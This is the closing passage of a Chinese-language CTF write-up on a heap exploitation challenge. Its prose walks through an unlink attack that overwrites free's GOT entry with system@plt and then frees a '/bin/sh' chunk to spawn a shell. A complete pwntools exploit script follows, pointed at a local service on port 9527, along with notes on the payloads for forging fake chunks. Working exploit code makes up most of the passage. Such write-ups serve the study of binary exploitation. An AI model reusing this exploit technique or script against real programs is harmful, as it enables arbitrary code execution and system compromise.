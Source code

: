 先往chunk3中写入free_got的地址，这样chunk0中保存的就是free_got了

然后往chunk0中写入system_plt，这样就相当于往free_got中写入system_plt了

如此一来就成功修改got表了

最后就用free('/bin/sh')来触发system('/bin/sh')，由于开始时我就往chunk1中写入了bin/sh了，这里直接用就行了

`delete(1)`

成功渗透，O(∩_∩)O哈哈~
最后贴上exp

```
from pwn import *
#p = process('./silent2')
cn = remote('127.0.0.1',9527)
def create(size, content):
    cn.sendline('1')
    cn.sendline(str(size))
    cn.sendline(content)
  
def modify(idx, content1):
    cn.sendline('3')
    cn.sendline(str(idx))
    cn.sendline(content1)
  
def delete(idx):
    cn.sendline('2')
    cn.sendline(str(idx))
 
print cn.recv()
free_got = 0x602018
strlen_got = 0x602020
system_plt = 0x400730
p_addr = 0x6020d8
create(0x90,'aaaa')#0
create(0x90,'/bin/sh\x00')#1
create(0x90,'cccc')#2
create(0x90,'dddd')#3
create(0x90,'eeee')#4
 
delete(3)
delete(4)
fd = p64(p_addr-0x18)
bk = p64(p_addr-0x10)
payload = p64(0) + p64(0x91) + fd + bk + 'a'*0x70#3
payload +=p64(0x90) + p64(0xa0)#4
create(0x130,payload)
#unlink
delete(4)
 
modify(3,p64(free_got))
modify(0,p64(system_plt))
delete(1)
cn.interactive()
```
补充：
满足两个条件就可以了:
1、实现unlink的条件 
```
Chunk4: '\x00'*8+p64(0x101)+p64(0x6020d8-0x18)+p64(0x6020d8-0x10)+'A'*(256-32)
Chunk5: p64(0x100)+p64(0x110)+'B'*255
```
对于chunk4 0x101 表示当前堆块大小（包括头）是0x100， 其前一个堆块为inuse状态
